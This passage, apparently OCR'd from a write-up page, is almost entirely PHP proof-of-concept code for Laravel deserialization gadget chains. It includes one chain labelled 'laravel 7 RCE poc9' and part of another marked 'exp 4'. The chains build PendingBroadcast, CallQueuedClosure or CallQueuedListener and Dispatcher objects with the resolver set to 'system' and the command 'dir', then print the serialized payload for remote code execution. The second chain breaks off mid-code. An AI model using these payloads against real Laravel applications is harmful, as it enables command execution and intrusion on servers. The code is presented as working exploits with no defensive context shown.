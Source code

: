 ```
            $this-&gt;event=$event;
        `}`
    `}`
`}`

namespace Illuminate\Queue `{`
    class CallQueuedClosure `{`
        public $connection;
        public function __construct($connection) `{`
            $this-&gt;connection = $connection;
        `}`
    `}`
`}`

namespace Illuminate\Bus `{`
    class Dispatcher `{`
        protected $queueResolver;
        public function __construct($queueResolver) `{`
            $this-&gt;queueResolver = $queueResolver;
        `}`
    `}`
`}`

namespace `{`
    $c = new Illuminate\Bus\Dispatcher('system');
    $b = new Illuminate\Queue\CallQueuedClosure('dir');
    $a = new Illuminate\Broadcasting\PendingBroadcast($c, $b);
    echo urlencode(serialize($a));
`}`
```

exp 4

```
&lt;?php

/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc9
# @author: Ricky
*/

namespace Illuminate\Broadcasting`{`
    class PendingBroadcast `{`
        protected $events;
        protected $event;
        public function __construct($events, $event) `{`
            $this-&gt;events=$events;
            $this-&gt;event=$event;
        `}`
    `}`
`}`

namespace Illuminate\Events `{`
    class CallQueuedListener `{`
        public $connection;
        public function __construct($connection) `{`
            $this-&gt;connection = $connection;
        `}`
    `}`
`}`

namespace Illuminate\Bus `{`
    class Dispatcher `{`
```